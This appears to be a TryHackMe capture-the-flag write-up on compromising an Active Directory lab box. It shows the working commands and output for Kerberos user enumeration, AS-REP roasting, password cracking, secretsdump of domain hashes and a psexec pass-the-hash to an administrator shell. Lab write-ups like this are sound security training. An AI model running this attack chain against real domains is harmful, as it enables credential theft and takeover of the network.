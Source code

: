 # THM: Attacktive Directory

## Reconnaissance

There was a lot of services running but I found nothing of interest so I use 
kerbrute to enumerate usernames with the supplied user list. I put the found 
usernames into a file called `valid-users.txt`. 

```
[kali@kali ~/thm/attacktivedirect/exploit] /opt/kerbrute/kerbrute_linux_386 userenum -d spookysec.local --dc 10.10.124.116  userlist.txt 

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 11/22/22 - Ronnie Flathers @ropnop

2022/11/22 13:27:10 >  Using KDC(s):
2022/11/22 13:27:10 >  	10.10.124.116:88

2022/11/22 13:27:10 >  [+] VALID USERNAME:	 james@spookysec.local
2022/11/22 13:27:14 >  [+] VALID USERNAME:	 svc-admin@spookysec.local
2022/11/22 13:27:18 >  [+] VALID USERNAME:	 James@spookysec.local
2022/11/22 13:27:19 >  [+] VALID USERNAME:	 robin@spookysec.local
2022/11/22 13:27:34 >  [+] VALID USERNAME:	 darkstar@spookysec.local
2022/11/22 13:27:43 >  [+] VALID USERNAME:	 administrator@spookysec.local
2022/11/22 13:28:02 >  [+] VALID USERNAME:	 backup@spookysec.local
2022/11/22 13:28:10 >  [+] VALID USERNAME:	 paradox@spookysec.local
2022/11/22 13:29:07 >  [+] VALID USERNAME:	 JAMES@spookysec.local
2022/11/22 13:29:26 >  [+] VALID USERNAME:	 Robin@spookysec.local

```

I then checked if any of the users were ASREP-roastable. 

``` 
[kali@kali ~/thm/attacktivedirect/exploit] impacket-GetNPUsers spookysec.local/ 
-usersfile valid-users.txt -format john -outputfile asrep.hash
```

The user `svc-admin` was ASREP-roastable so I cracked the hash using `john` and
the supplied password list. 

```
[kali@kali ~/thm/attacktivedirect/exploit] cat asrep.hash        
$krb5asrep$svc-admin@SPOOKYSEC.LOCAL:4131a2d8f638101f7eeff8562a7d6fcf$b0ad0ec99a2b6e1713f104382802551d66ed31074808021d0054a5a45ffbdf12fb0c4956a46217f3cbee505bdda52d9a806a8a667d84cc446555f9642a24a08f123cca553c629d976d67f4dd5ec417847935a3ee114b3817f6feb68cd195a905ed07d437b4d0b377768604a59926a4d04dcc49167af00d455574af048f63b59efef3675690734b190c1d3434c54667053c1c4ebd8f24c6f5a42f02d47748ff3c58c2b0f25ac4dfe5ed1e3de2fc2bc8818a69f32c739662a6899664eec8afe0c8f7f06af8cca232b66dd765b4e0550c846b20682e401b59fdc5ebc1c1f3c767c2df2c70ab6179892cf26a8b862997f5c2878e
```

```
[kali@kali ~/thm/attacktivedirect/exploit] john --wordlist=passwordlist.txt --format=krb5asrep asrep.hash                                        
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 128/128 AVX 4x])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
management2005   ($krb5asrep$svc-admin@SPOOKYSEC.LOCAL)     
1g 0:00:00:00 DONE (2022-11-22 13:56) 100.0g/s 665600p/s 665600c/s 665600C/s horoscope..amy123
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

I attempted to log in with this user via the usual methods without success.
However, listing the SMB shares now as an authenticated user you can now access
the "backup" share.

```
[kali@kali ~/thm/attacktivedirect/exploit] smbclient -U 'svc-admin' -L  \\\\10.10.124.116\\                                                                        
Password for [WORKGROUP\svc-admin]:

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	backup          Disk      
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	SYSVOL          Disk      Logon server share 
```

Located in the backup share is a file called `backup_credentials.txt` which
contained base64 text. Decoding the text yields a set of credentials for the
user "backup."

```
[kali@kali ~/thm/attacktivedirect/loot] smbclient -U 'svc-admin'  \\\\10.10.124.116\\backup
Password for [WORKGROUP\svc-admin]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Apr  4 15:08:39 2020
  ..                                  D        0  Sat Apr  4 15:08:39 2020
  backup_credentials.txt              A       48  Sat Apr  4 15:08:53 2020

		8247551 blocks of size 4096. 3609222 blocks available

```

```
[kali@kali ~/thm/attacktivedirect/loot] cat backup_credentials.txt | base64 -d
backup@spookysec.local:backup2517860 
```

## Initial Access

I attempted to log in with this user via the usual means without success. Given
the name of the user I tried Impacket's secretsdump which dumped the hashes of
all users including the Administrator and krbtgt accounts.

```
[kali@kali ~/thm/attacktivedirect] impacket-secretsdump -dc-ip 10.10.124.116 backup:backup2517860@spookysec.local
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:0e2eb8158c27bed09861033026be4c21:::
```

I was now able to log in as the Administrator using psexec and a Pass-The-Hash
ttack.

```
[kali@kali /opt] impacket-psexec -dc-ip 10.10.124.116 administrator@spookysec.local -hashes aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc 
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Requesting shares on spookysec.local.....
[*] Found writable share ADMIN$
[*] Uploading file oPwWfckV.exe
[*] Opening SVCManager on spookysec.local.....
[*] Creating service slcY on spookysec.local.....
[*] Starting service slcY.....
[!] Press help for extra shell commands                                              Microsoft Windows [Version 10.0.17763.1490]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> 

```
